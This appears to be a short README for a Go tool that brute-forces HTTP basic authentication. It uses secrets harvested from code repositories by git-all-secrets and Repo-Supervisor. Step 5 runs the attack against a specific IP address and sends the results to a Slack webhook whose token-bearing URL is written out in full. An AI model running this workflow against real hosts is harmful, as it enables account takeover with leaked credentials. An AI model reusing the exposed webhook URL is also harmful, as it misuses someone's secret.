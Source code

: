 # Basic Authentication Bruteforcing of WFUZZ endpoints with secrets obtained from Repo-Supervisor

1. `cd` into the `wfuzz-basicauth-bruteforcer` directory.

2. Complete the `.env.sample` file in the `wfuzz-basicauth-bruteforcer` directory with the appropriate values and copy it to `.env`.

3. For MacOS, install `pycurl`:
    * `sudo pip install pycurl`

4. For Linux, install `pycurl`:
    * `sudo apt-get install -y build-essential libssl-dev libffi-dev python-dev libcurl4-openssl-dev`
    * `sudo pip install pycurl`

5. Now, in order to bruteforce the basic authentication mechanism with the data retrieved from `wfuzz` and `git-all-secrets`, type `go run bruteforce.go -target 104.198.4.57 -slackHook https://hooks.slack.com/services/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`.

6. We should get back some results in Slack.

